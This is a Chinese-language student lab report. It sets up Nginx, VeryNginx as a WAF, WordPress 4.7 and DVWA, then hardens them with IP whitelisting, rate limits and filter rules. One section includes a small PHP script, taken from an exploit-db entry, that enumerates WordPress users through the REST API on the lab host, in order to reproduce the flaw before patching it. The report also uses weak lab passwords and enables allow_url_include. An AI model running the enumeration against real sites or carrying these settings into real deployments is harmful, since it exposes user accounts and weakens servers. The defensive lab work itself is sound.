# 第五章：Web服务器（实验）

## 目录

[TOC]

## 实验环境

- Ubuntu 20.04.2 LTS（VirtualBox 虚拟机）
- Windows 11 (本机)
- [Nginx](http://nginx.org/) 1.18.0-0ubuntu1.3
- [VeryNginx](https://github.com/alexazhou/VeryNginx)
- [Wordpress](https://wordpress.org/)
  - [WordPress 4.7](https://wordpress.org/wordpress-4.7.zip) | [备用下载地址](https://github.com/WordPress/WordPress/archive/4.7.zip)
- [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/) v1.10
- PHP v7.4


## 实验内容

#### 基本要求

- [x] 在一台主机（虚拟机）上同时配置 Nginx 和 VeryNginx
  - [x] VeryNginx 作为本次实验的 Web App 的反向代理服务器和 WAF
  - [x] PHP-FPM 进程的反向代理配置在 nginx 服务器上，VeryNginx 服务器不直接配置 Web 站点服务

- [x] VeryNginx 作为本次实验的 Web App 的反向代理服务器和 WAF
- [x] PHP-FPM 进程的反向代理配置在 nginx 服务器上，VeryNginx 服务器不直接配置 Web 站点服务
- [x] 使用 [Wordpress](https://wordpress.org/) 搭建的站点对外提供访问的地址为： http://wp.sec.cuc.edu.cn
- [x] 使用 [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/) 搭建的站点对外提供访问的地址为： http://dvwa.sec.cuc.edu.cn


#### 安全加固要求

- [x] 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面 -1**
- [x] [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/) 只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面 -2**
- [x] 在不升级 Wordpress 版本的情况下，通过定制 [VeryNginx](https://github.com/alexazhou/VeryNginx) 的访问控制策略规则，**热**修复 [WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)
- [x] 通过配置 [VeryNginx](https://github.com/alexazhou/VeryNginx) 的 Filter 规则实现对 [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/) 的 SQL 注入实验在低安全等级条件下进行防护


#### VeryNginx 配置要求

- [x] [VeryNginx](https://github.com/alexazhou/VeryNginx) 的 Web 管理页面仅允许白名单上的访客来源 IP，其他来源的 IP 访问均向访客展示自定义的**友好错误提示信息页面 -3**
- [x] 通过定制 VeryNginx 的访问控制策略规则实现：
  - [x] 限制 DVWA 站点的单 IP 访问速率为每秒请求数 < 50
  - [x] 限制 Wordpress 站点的单 IP 访问速率为每秒请求数 < 20
  - [x] 超过访问频率限制的请求直接返回自定义**错误提示信息页面 -4**
  - [x] 禁止 curl 访问


## 实验过程

#### 1 实验所需的软件下载与安装

##### 1.1 安装 Nginx

```bash
sudo apt update && sudo apt install nginx -y
```


##### 1.2 安装 VeryNginx

```bash
#安装git
sudo apt install git

#克隆 VeryNginx 仓库到 Linux，下载 VeryNginx 安装包
git clone https://github.com/alexazhou/VeryNginx.git

#安装相关依赖包
sudo apt-get install libssl-dev -y
sudo apt install libpcre3 libpcre3-dev -y
sudo apt install build-essential -y
sudo apt install zlib1g-dev -y
sudo apt install gcc -y
sudo apt install make -y

#进入仓库
cd VeryNginx

#先关闭nginx
sudo nginx -s stop

#安装veryNginx
sudo python3 install.py install
```


##### 1.3 安装 PHP

```bash
#安装PHP
sudo apt install php-fpm php-mysql php-curl php-gd php-intl php-mbstring php-soap php-xml php-xmlrpc php-zip -y

#安装完扩展后，重新启动 PHP-FPM 进程，以便正在运行的 PHP 处理器可以利用新安装的功能
sudo systemctl restart php7.4-fpm
```


##### 1.4 安装 MySQL

```bash
#安装MySQL
sudo apt install mysql-server -y 
```


##### 1.5 下载 WordPress

```bash
# 下载安装包
sudo wget https://wordpress.org/wordpress-4.7.zip

# 解压
sudo apt install p7zip-full -y
7z x wordpress-4.7.zip

#建立目录
sudo mkdir /var/www/html/wp.sec.cuc.edu.cn

# 将解压后的wordpress移至指定路径
sudo cp -r wordpress /var/www/html/wp.sec.cuc.edu.cn
```


##### 1.6 下载 DVWA

```bash
# 下载
git clone https://github.com/digininja/DVWA.git

# 建立目录
sudo mkdir /var/www/html/dvwa.sec.cuc.edu.cn

# 把下载好的DVWA移到刚刚创建的目录下
sudo mv DVWA/* /var/www/html/dvwa.sec.cuc.edu.cn

```


#### 2 配置文件与环境搭建

##### 2.1 规定的各监听端口与对应网站

|           | Port |
| --------- | ---- |
| Wordpress | 8080 |
| DVWA      | 8088 |
| Nginx     | 8000 |
| VeryNginx | 80   |


##### 2.2 更改 Windows 主机和虚拟机 hosts 文件

```bash
#web
192.168.56.102 vn.sec.cuc.edu.cn
192.168.56.102 dvwa.sec.cuc.edu.cn
192.168.56.102 wp.sec.cuc.edu.cn

#Ubuntu 下修改 hosts 文件
sudo vim /etc/hosts

#Windows11 下修改 hosts 文件(管理员权限)
notepad C:\Windows\System32\drivers\etc\hosts
```






##### 2.3 检查 Nginx 安装

2.3.1 修改默认端口，方便后续安装 VeryNginx

```bash
#安装完成后，为避免后续安装 VeryNginx 时端口占用，将它的监听端口绑定到虚拟机host-only的IP地址的8000端口
sudo vim /etc/nginx/sites-available/default

# 将端口修改为8000
server {
		listen 8000 default_server;

#重新加载修改的配置文件
sudo systemctl reload nginx 
```


2.3.2 可以在宿主机浏览器查看 192.168.56.102:8000  验证 nginx 已经成功安装运行


2.3.3 如果安装了 Apache2 可能会出现的情况


##### 2.4 在 Nginx上配置 Wordpress

2.4.1 在 MySQL 中新建一个数据库用于 wordpress

```mysql
# 启动MySQL
sudo mysql

# 新建一个数据库 wordpress
create database wordpress DEFAULT CHARACTER SET utf8 COLLATE utf8_unicode_ci;

# 创建用户
create user 'wp_lxf'@'localhost' IDENTIFIED BY 'cuc123';

#授权
grant all on wordpress.* to 'wp_lxf'@'localhost';

#刷新并退出
flush privileges;
exit;

#重启mysql使配置文件生效
sudo systemctl restart mysql.service 
```


2.4.2 配置 Wordpress 的 php 文件

```bash
#把目录wordpress的所有权分配给用户和组。
sudo chown -R www-data:www-data /var/www/html/wp.sec.cuc.edu.cn/wordpress

#进入目录下修改文件
sudo vim /var/www/html/wp.sec.cuc.edu.cn/wordpress/wp-config-sample.php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'wp_lxf');

/** MySQL database password */
define('DB_PASSWORD', 'cuc123');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

# 将wp-config-sample.php更名为wp-config.php
cd /var/www/html/wp.sec.cuc.edu.cn/wordpress/
mv wp-config-sample wp-config
```




2.4.3 配置服务器文件

```bash
#创建新服务器块配置文件
sudo vim /etc/nginx/sites-available/wp.conf

#写入以下配置文件
server {
    listen 8080 default_server;

    root /var/www/html/wp.sec.cuc.edu.cn;
    index index.php index.html index.htm index.nginx-debian.html;
    server_name wp.sec.cuc.edu.cn;

    location / {
        # try_files $uri $uri/ =404;
        try_files $uri $uri/ /index.php$is_args$args;

    }

    # 配置PHP-FPM进程的反向代理配置在nginx服务器上    
    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
    }

    location ~ /\.ht {
        deny all;
    }
}

#创建从新服务器块配置文件到/etc/nginx/sites-enabled/目录的符号链接
sudo ln -s /etc/nginx/sites-available/wp.conf /etc/nginx/sites-enabled/

#取消链接默认配置文件
sudo unlink /etc/nginx/sites-enabled/default

#测试并重启nginx   
sudo nginx -t
systemctl restart nginx.service
```


2.4.4 成功通过 http://wp.sec.cuc.edu.cn:8080/wordpress/ 访问 WordPress 初始界面




2.4.5 配置数据库信息后，Wordpress安装完成


##### 2.5 在 Nginx上 配置 DVWA

2.5.1 在 MySQL 中新建一个数据库用于 dvwa

```mysql
# 启动MySQL
sudo mysql

# 新建 dvwa 数据库
create database dvwa default character set utf8 collate utf8_unicode_ci;

# 创建用户
CREATE USER 'dvwa_lxf'@'localhost' IDENTIFIED BY 'cuc123';

# 授权
grant all on dvwa.* to 'dvwa_lxf'@'localhost';

#刷新并退出
flush privileges;
exit;

# 重启mysql使配置文件生效
sudo systemctl restart mysql.service 
```


2.5.2 配置 DVWA 的 php 文件

```bash
#授权给www-data用户和组
sudo chown -R www-data.www-data /var/www/html/dvwa.sec.cuc.edu.cn

# 将/var/www/html/dvwa.sec.cuc.edu.cn/config/目录下的config.inc.php.dist文件改名为config.inc.php
cd /var/www/html/dvwa.sec.cuc.edu.cn/config/
sudo mv config.inc.php.dist config.inc.php

#修改配置文件
sudo vim /var/www/html/dvwa.sec.cuc.edu.cn/config/config.inc.php

# 修改数据库相关配置：
$_DVWA = array();
$_DVWA[ 'db_server' ]   = '127.0.0.1';
$_DVWA[ 'db_database' ] = 'dvwa';
$_DVWA[ 'db_user' ]     = 'dvwa_lxf';
$_DVWA[ 'db_password' ] = 'cuc123';
$_DVWA[ 'db_port'] = '3306';
```




2.5.3 配置服务器文件

```bash
# 创建新服务器块配置文件
sudo vim /etc/nginx/sites-available/dvwa.conf

# 写入配置文件
server {
	#监听端口8088
    listen 8088 default_server;

    root /var/www/html/dvwa.sec.cuc.edu.cn;
    index index.php index.html index.htm index.nginx-debian.html;
    server_name dvwa.sec.cuc.edu.cn;

    location / {
        #try_files $uri $uri/ =404;
        try_files $uri $uri/ /index.php$is_args$args;  
    }

    location ~ \.php$ {
        include snippets/fastcgi-php.conf;
        fastcgi_pass unix:/var/run/php/php7.4-fpm.sock;
    }

    location ~ /\.ht {
        deny all;
    }
}

#创建从新服务器块配置文件到/etc/nginx/sites-enabled/目录的符号链接
sudo ln -s /etc/nginx/sites-available/dvwa.conf /etc/nginx/sites-enabled/

# 检查并重启服务
sudo nginx -t
systemctl restart nginx.service
```


2.5.4 成功通过 http://dvwa.sec.cuc.edu.cn:8088/ 访问 DVWA 页面并登录


2.5.5 初次使用 DVWA 需要配置数据库信息，在登录页面输入默认账号密码，登录配置数据库

```
User: admin
Password: password
```


2.5.6 根据 DVWA 网页提示信息，配置 PHP 服务

```bash
# 修改 php-fpm 文件
sudo vim /etc/php/7.4/fpm/php.ini 

#将仅允许 url 访问打开
allow_url_include: On

#重启 php 服务
systemctl restart php7.4-fpm.service
```




##### 2.6 配置 VeryNginx 文件

2.6.1 修改用户名

```bash
#进入到文件中进行修改：
sudo vim /opt/verynginx/openresty/nginx/conf/nginx.conf

# 修改用户名，将 nginx 改为 www-data
user  www-data;
```


2.6.2 修改进程权限

```bash
sudo chmod -R 777 /opt/verynginx/verynginx/configs
```


2.6.3 可以通过以下命令来控制 VeryNginx的运行

```bash
#启动服务
sudo /opt/verynginx/openresty/nginx/sbin/nginx

#停止服务
sudo /opt/verynginx/openresty/nginx/sbin/nginx -s stop

#重启服务
sudo /opt/verynginx/openresty/nginx/sbin/nginx -s reload
```


2.6.4 启动verynginx，通过浏览器对verynginx进行配置，在浏览器中访问`http://vn.sec.cuc.edu.cn/verynginx/index.html` 默认用户名和密码是 `verynginx` / `verynginx`。登录后就可以进行相关配置。


#### 3 PHP-FPM 进程的反向代理配置以及实现安全加固要求

##### 3.1 使用 VeryNginx 反向代理 Wordpress,DVWA

3.1.1 配置 Matcher 规则：进入 config 页面，加入以下规则并保存




3.1.2 Matcher 规则配置完成




3.1.3 进入 **Backend.Proxy Pass** 选项，添加 Up Stream节点以及添加代理通行证 Proxy Pass


3.1.4 重启 Nginx 使修改配置生效

```bash
#重启 Nginx
systemctl restart nginx.service
```


3.1.5 配置完成后就可以通过 http://dvwa.sec.cuc.edu.cn/ 和 http://wp.sec.cuc.edu.cn/wordpress/ 直接访问（不用加端口号）




##### 3.2 使用IP地址方式均无法访问上述任意站点，并向访客展示自定义的**友好错误提示信息页面-1**

3.2.1 配置规则

添加 matcher


添加自定义 response


添加 Filter




3.2.2 配置成功（若没成功可能是浏览器缓存问题，也可能需要重启一下服务器更新配置）


##### 3.3 Damn Vulnerable Web Application (DVWA) 只允许白名单上的访客来源IP，其他来源的IP访问均向访客展示自定义的**友好错误提示信息页面 -2**

3.3.1 配置规则

添加 matcher 规则


添加自定义 response


添加 Filter


3.3.2 使用非白名单 IP 访问效果




##### 3.5 在不升级 Wordpress 版本的情况下，通过定制 VeryNginx 的访问控制策略规则，**热**修复 [WordPress < 4.7.1 - Username Enumeration](https://www.exploit-db.com/exploits/41497/)

3.5.1 重现漏洞

```bash
#安装依赖包
sudo apt install php

#创建漏洞文件
sudo vim err.php

#写入 php 脚本文件
#!usr/bin/php
<?php

header ('Content-type: text/html; charset=UTF-8');

$url= "http://wp.sec.cuc.edu.cn//";
$payload="wp-json/wp/v2/users/";
$urli = file_get_contents($url.$payload);
$json = json_decode($urli, true);
if($json){
	echo "*-----------------------------*\n";
foreach($json as $users){
	echo "[*] ID :  |" .$users['id']     ."|\n";
	echo "[*] Name: |" .$users['name']   ."|\n";
	echo "[*] User :|" .$users['slug']   ."|\n";
	echo "\n";
}echo "*-----------------------------*";} 
else{echo "[*] No user";}


?>
            
#执行脚本
sudo php err.php
```

这里本来应该是返回一个 json 文件，但我这里不知为什么没有返回。


3.5.2 定制 VeryNginx 的访问控制策略规则，热修复漏洞

添加 matcher 匹配规则


在 Custom Action 中添加 Filter 过滤条件




##### 3.6 通过配置 [VeryNginx](https://github.com/alexazhou/VeryNginx) 的 Filter 规则实现对 [Damn Vulnerable Web Application (DVWA)](http://www.dvwa.co.uk/) 的 SQL 注入实验在低安全等级条件下进行防护

3.6.1 将 security level 修改为 low


3.6.2 配置防护规则

添加 matcher 匹配规则


添加 Filter 过滤条件


3.6.3 重启 Nginx 使修改配置生效

```bash
#重启 Nginx
systemctl restart nginx.service
```


#### 4 实现 VeryNginx 的配置要求

##### 4.1 VeryNginx 的 Web 管理页面仅允许白名单上的访客来源 IP，其他来源的 IP 访问均向访客展示自定义的**友好错误提示信息页面 -3**

4.1.1 配置规则

添加 matcher 匹配规则


 添加 response 响应规则


添加 Filter 过滤条件


4.1.2 重启 Nginx 使修改配置生效

```bash
#重启 Nginx
systemctl restart nginx.service
```


4.1.3 配置效果（成功地把自己锁在了外面）


4.1.4 解锁办法

```bash
#修改配置文件
sudo vim /opt/verynginx/verynginx/configs/config.json

#重启服务使配置生效
sudo /opt/verynginx/openresty/nginx/sbin/nginx -s reload
```

